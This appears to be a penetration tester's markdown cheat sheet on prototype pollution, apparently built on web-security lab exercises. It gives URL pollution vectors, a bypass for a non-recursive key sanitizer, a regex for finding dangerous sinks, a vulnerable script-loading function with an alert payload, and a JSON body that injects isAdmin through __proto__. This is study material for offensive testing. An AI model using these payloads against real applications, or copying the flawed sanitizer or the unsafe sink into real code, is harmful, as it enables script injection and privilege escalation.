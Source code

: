 [#](#) Prototype Pollution

> While browsing, `?constructor[prototype]...` content flashes in the URL bar? Yes, then try to exploit this...

## Prototype Pollution (DOM Invader)

Note: sometimes there's sanitizer blocking the detection (see manual)

1. Turn On Dom Invader
2. Attack -> Turn On Prototype Attacks
3. Browse normally the app and check the Dom tab
4. Scan for gadget -> Exploit -> If Not working, look at the sink value -> Any trailing caracter -> Add - or ; after the payload

## Manual

Find Prototype Source:

1. Prototype pollution vectors
2. 
    ```
    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    ```
3. Console: `Object.prototype`

    Injection

    `{foo: 'bar', __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

    No Injection:

    `{ __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

        Is there a santizer?

            ```
            // Vulnerability: not recurrent replace
            // Exploit: __pro__proto__to__ (i.e.: sandwich)
            
            function sanitizeKey(key) {
                let badProperties = ['constructor','__proto__','prototype'];
                for(let badProperty of badProperties) {
                    key = key.replaceAll(badProperty, '');
                }
                return key;
            }
            ```
            
Find a Sink:

```
(document\.|window\.)(write|writeln|createElement|domain)|location|eval|setTimeout|setInterval|innerHTML|outerHTML|insertAdjacentHTML|window\.open|onevent|Function
```


```
async function searchLogger() {

    // Object
    
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
    
        // Sink -> /?__proto__[transport_url]=data:,alert(1);
        
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

## Server Side


POST /ChaneAddress

```
{
    "City": "foo",
    "Address": 1234,
}
```

HTTP/2 200 OK

```
{
    "username": "wiener",
    "City": "foo",
    "Address": 1234,
    "isAdmin":true
}

```

Mass assignement not working? Try prototype pollution.

```
{
    "City": "foo",
    "Address": 1234,
    "__proto__": {
        "isAdmin":"true"
    }
}
    ```
